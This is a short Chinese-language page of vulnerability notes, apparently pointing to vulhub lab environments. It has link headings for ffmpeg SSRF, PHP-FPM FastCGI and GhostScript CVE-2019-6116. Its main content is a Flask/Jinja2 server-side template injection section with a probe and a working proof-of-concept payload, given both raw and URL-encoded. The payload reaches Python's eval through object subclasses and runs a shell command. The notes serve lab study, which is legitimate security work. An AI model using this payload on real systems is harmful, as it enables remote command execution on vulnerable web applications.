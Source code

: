 ## **[漏洞分析和实现](http://xdxd.love/2016/01/18/ffmpeg-SSRF%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)**


# **[Flask（Jinja2） 服务端模板注入漏洞](https://vulhub.org/#/environments/flask/ssti/)**

## 漏洞验证：

访问

- http://your-ip:8000/?name={{233*233}}

> 得到54289，说明SSTI漏洞存在。

获取eval函数并执行任意python代码的POC：

```py
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```


访问：
```
/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

# **[PHP-FPM Fastcgi 未授权访问漏洞](https://vulhub.org/#/environments/fpm/)**

**[POC](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)**:


# **[GhostScript 沙箱绕过（命令执行）漏洞（CVE-2019-6116）](https://vulhub.org/#/environments/ghostscript/CVE-2019-6116/)**
